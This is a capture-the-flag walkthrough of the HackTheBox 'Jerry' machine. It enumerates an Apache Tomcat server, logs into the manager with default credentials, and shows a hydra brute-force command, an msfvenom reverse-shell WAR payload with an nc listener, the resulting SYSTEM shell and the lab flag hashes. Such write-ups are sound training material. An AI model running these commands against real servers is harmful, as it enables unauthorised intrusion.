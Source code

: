 ```yaml
---
title: HackTheBox - Jerry
date: 2021-08-15 00:36:34 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [gobuster, nikto, tomcat, war, default credentials, hydra, msfvenom, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/jerry/Jerry.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Jerry-full-port-scan.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Port 80 (Apache Tomcat/7.0.88)

#### `gobuster`

```bash
$ gobuster dir -u http://$TARGET:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .jsp
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jsp
[+] Timeout:                 10s
===============================================================
2021/08/14 20:48:16 Starting gobuster in directory enumeration mode
===============================================================
/aux                  (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/com4                 (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/index.jsp            (Status: 200) [Size: 11398]                 
/lpt2                 (Status: 200) [Size: 0]                     
/lpt1                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]                     
                                                                  
===============================================================
2021/08/14 20:49:58 Finished
===============================================================
```

Since I was curious, I looked for exploits against **Apache Tomcat/7.0.88**:

```bash
$ searchsploit Tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                              | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                              | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

But it appears that the server was not vulnerable:

![](/assets/img/htb/machines/windows/easy/jerry/CVE_2017_12617.png)

#### `nikto`

`nikto` revealed that the credentials to access the `/manager` are the default ones:

- **username**: `tomcat` 
- **password**: `s3cret` 

![](/assets/img/htb/machines/windows/easy/jerry/nikto.png)

> We could also bruteforce them using `hydra`:

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 $TARGET http-get /manager/html
```

![](/assets/img/htb/machines/windows/easy/jerry/hydra.png)

Once authenticated, the first thing that should come to our eyes is the fact that we can deploy WAR files:

![](/assets/img/htb/machines/windows/easy/jerry/tomcat.png)

## Exploitation

First we need to create a malicious WAR file using `msfvenom`, then we can start a listener:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$(vpnip) LPORT=1234 -f war > shell.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
$ nc -lnvp 1234
listening on [any] 1234 ...
```

![](/assets/img/htb/machines/windows/easy/jerry/war.png)

If we click on **List applications** or if we simply refresh the page, the `shell` application should appear:

![](/assets/img/htb/machines/windows/easy/jerry/shell_app.png)

Clicking on it will execute it. Then we have a shell as 😯 ... **SYSTEM**!!!

![](/assets/img/htb/machines/windows/easy/jerry/shell.png)

```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"    
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```